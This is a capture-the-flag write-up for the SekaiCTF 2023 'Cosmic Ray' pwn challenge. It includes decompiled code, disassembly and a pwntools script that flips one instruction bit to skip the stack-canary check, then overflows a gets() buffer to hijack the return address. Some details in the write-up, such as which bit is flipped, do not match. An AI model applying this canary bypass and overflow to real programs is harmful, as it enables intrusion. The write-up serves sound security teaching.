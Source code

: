 ## Description

- category: binary exploitation
- link: https://ctf.sekai.team/challenges#Cosmic-Ray-40
- difficulty: 1 star (Beginner)

```
Why wait for the universe to send you a cosmic ray when you can do it yourself?
 Well today the wait is over with our brand new cosmic ray launcher 3000 coming
 to a CPU near you!

This technology is still under development, please leave a review when you are 
finished testing.

Author: Rench
```

The binary executable is given. To get the flag, we connect to the remote service, and do the exploit.

## Solve

(I renamed the binary "cosmicray")

First, quick check of compiler options. (Using a python library called pwntools)

```bash
harryfyx@DESKTOP-QADD3OA:/mnt/d/sekaictf2023/cosmic ray/dist$ checksec cosmicray
[*] '/mnt/d/sekaictf2023/cosmic ray/dist/cosmicray'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We find that a stack protector will detect buffer overflows, stack address changes every run, and stack is not executable.

Decompile the binary with Ghidra, we see `main` function (renamed some variables and functions), and `win` function that will print the flag.

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  longlong user;
  char user2 [40];
  long local_10;
  
  local_10 = *(in_FS_OFFSET + 0x28);
  setbuf(stdout,0x0);
  puts("Welcome to my revolutionary new cosmic ray machine!");
  puts("Give me any address in memory and I\'ll send a cosmic ray through it:");
  __isoc99_scanf("0x%lx",&user);
  getchar();
  cosmic_ray(user);
  puts("Please write a review of your experience today:");
  gets(user2);  // vulnerable!
  if (local_10 != *(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

void win(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_58,0x40,__stream);
  puts(local_58);
  if (local_10 != *(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Since `gets` can lead to buffer overflow, then we can control the return address to point to the win function. However, the stack canary check will fail if the buffer just overflows.

Luckily we can send a cosmic ray to flip a bit, and skip the stack canary check.

Let's see the disassembly of main from Ghidra

```assembly
                        **************************************************************
                        *                          FUNCTION                          *
                        **************************************************************
                        undefined main()
        undefined         AL:1           <RETURN>
        undefined8        Stack[-0x10]:8 local_10                                XREF[2]:     0040165e(W), 
                                                                                            004016e7(R)  
        undefined1[40]    Stack[-0x38]   user2                                   XREF[1]:     004016d1(*)  
        longlong          Stack[-0x40]:8 user                                    XREF[2]:     00401696(*), 
                                                                                            004016b6(R)  
                        main                                            XREF[5]:     Entry Point(*), 
                                                                                    _start:00401208(*), 
                                                                                    _start:00401208(*), 004021bc, 
                                                                                    004022f0(*)  
00401649 f3 0f 1e fa     ENDBR64
0040164d 55              PUSH       RBP
0040164e 48 89 e5        MOV        RBP,RSP
00401651 48 83 ec 40     SUB        RSP,0x40
00401655 64 48 8b        MOV        RAX,qword ptr FS:[0x28]
            04 25 28 
            00 00 00
0040165e 48 89 45 f8     MOV        qword ptr [RBP + local_10],RAX
00401662 31 c0           XOR        EAX,EAX
00401664 48 8b 05        MOV        RAX,qword ptr [stdout]
            2d 2a 00 00
0040166b be 00 00        MOV        ESI,0x0
            00 00
00401670 48 89 c7        MOV        RDI,RAX
00401673 e8 c8 fa        CALL       libc.so.6::setbuf                                void setbuf(FILE * __stream, cha
            ff ff
00401678 48 8d 05        LEA        RAX,[s_Welcome_to_my_revolutionary_new_c_00402   = "Welcome to my revolutionary n
            31 0a 00 00
0040167f 48 89 c7        MOV        RDI=>s_Welcome_to_my_revolutionary_new_c_00402   = "Welcome to my revolutionary n
00401682 e8 89 fa        CALL       libc.so.6::puts                                  int puts(char * __s)
            ff ff
00401687 48 8d 05        LEA        RAX,[s_Give_me_any_address_in_memory_an_004020   = "Give me any address in memory
            5a 0a 00 00
0040168e 48 89 c7        MOV        RDI=>s_Give_me_any_address_in_memory_an_004020   = "Give me any address in memory
00401691 e8 7a fa        CALL       libc.so.6::puts                                  int puts(char * __s)
            ff ff
00401696 48 8d 45 c8     LEA        RAX=>user,[RBP + -0x38]
0040169a 48 89 c6        MOV        RSI,RAX
0040169d 48 8d 05        LEA        RAX,[s_0x%lx_0040212d]                           = "0x%lx"
            89 0a 00 00
004016a4 48 89 c7        MOV        RDI=>s_0x%lx_0040212d,RAX                        = "0x%lx"
004016a7 b8 00 00        MOV        EAX,0x0
            00 00
004016ac e8 1f fb        CALL       libc.so.6::__isoc99_scanf                        undefined __isoc99_scanf()
            ff ff
004016b1 e8 da fa        CALL       libc.so.6::getchar                               int getchar(void)
            ff ff
004016b6 48 8b 45 c8     MOV        RAX,qword ptr [RBP + user]
004016ba 48 89 c7        MOV        RDI,RAX
004016bd e8 e3 fd        CALL       cosmic_ray                                       undefined cosmic_ray(undefined8 
            ff ff
004016c2 48 8d 05        LEA        RAX,[s_Please_write_a_review_of_your_ex_004021   = "Please write a review of your
            6f 0a 00 00
004016c9 48 89 c7        MOV        RDI=>s_Please_write_a_review_of_your_ex_004021   = "Please write a review of your
004016cc e8 3f fa        CALL       libc.so.6::puts                                  int puts(char * __s)
            ff ff
004016d1 48 8d 45 d0     LEA        RAX=>user2,[RBP + -0x30]
004016d5 48 89 c7        MOV        RDI,RAX
004016d8 b8 00 00        MOV        EAX,0x0
            00 00
004016dd e8 be fa        CALL       libc.so.6::gets                                  char * gets(char * __s)
            ff ff
004016e2 b8 00 00        MOV        EAX,0x0
            00 00
004016e7 48 8b 55 f8     MOV        RDX,qword ptr [RBP + local_10]
004016eb 64 48 2b        SUB        RDX,qword ptr FS:[0x28]
            14 25 28 
            00 00 00
004016f4 74 05           JZ         LAB_004016fb
004016f6 e8 35 fa        CALL       libc.so.6::__stack_chk_fail                      undefined __stack_chk_fail()
            ff ff
                        -- Flow Override: CALL_RETURN (CALL_TERMINATOR)
```

Address `004016f4` has opcode to jump if stack canary checks out. We will make it jump when buffer overflows, since the opcode only differs by 1 bit. 

```
        004016f4 75 05           JNZ        LAB_004016fb
```

So, to sum it up, let's use a python script

```Py
import pwn

elf = pwn.ELF("./cosmicray")
# p = elf.process()
p = pwn.connect('chals.sekai.team', 4077)

pwn.context.binary = elf
pwn.context.log_level = 'debug'

p.recvuntil(b"Give me any address in memory and I'll send a cosmic ray through it:")
p.sendline(b"0x4016f4")

p.recvuntil(b"Enter a bit position to flip (0-7):")
p.sendline(b'7')

p.recvuntil(b'Please write a review of your experience today:')
ret_override = 0x004012d6

payload = b'a' * (40 + 8 + 8) + pwn.p64(ret_override)
p.sendline(payload)  # this will send the pc back to middle of main so we can change other bits
p.recvall()
```

As printed out, the flag is `SEKAI{w0w_pwn_s0_ez_wh3n_I_can_s3nd_a_c05m1c_ray_thru_ur_cpu}`